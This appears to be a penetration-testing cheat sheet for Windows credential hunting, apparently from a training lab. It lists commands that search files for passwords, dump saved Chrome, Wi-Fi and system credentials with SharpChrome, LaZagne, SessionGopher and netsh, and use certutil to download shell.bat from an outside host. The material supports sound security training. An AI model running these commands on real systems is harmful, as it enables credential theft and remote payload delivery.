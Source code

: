 `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`

> Decrypting PowerShell credentials

`cd c:\Users\lafi\Documents & findstr /SI /M "password" *.xml *.ini *.txt`

> Searching file contents for a string

`findstr /si password *.xml *.ini *.txt *.config`

> Searching file contents for a string

`findstr /spin "password" *.*`

> Searching file contents for a string

`select-string -Path C:\Users\lafi\Documents\*.txt -Pattern password`

> Search file contents with PowerShell

`dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`

> Search for file extensions

`where /R C:\ *.config`

> Search for file extensions

`Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`

> Search for file extensions using PowerShell

`cmdkey /list`

> List saved credentials

`.\SharpChrome.exe logins /unprotect`

> Retrieve saved Chrome credentials

`.\lazagne.exe -h`

> View LaZagne help menu

`.\lazagne.exe all`

> Run all LaZagne modules

`Invoke-SessionGopher -Target WINLPE-SRV01`

> Running SessionGopher

`netsh wlan show profile`

> View saved wireless networks

`netsh wlan show profile ilfreight_corp key=clear`

> Retrieve saved wireless passwords

`certutil.exe -urlcache -split -f [http://10.10.14.3:8080/shell.bat](http://10.10.14.3:8080/shell.bat) shell.bat`

> Transfer file with certutil
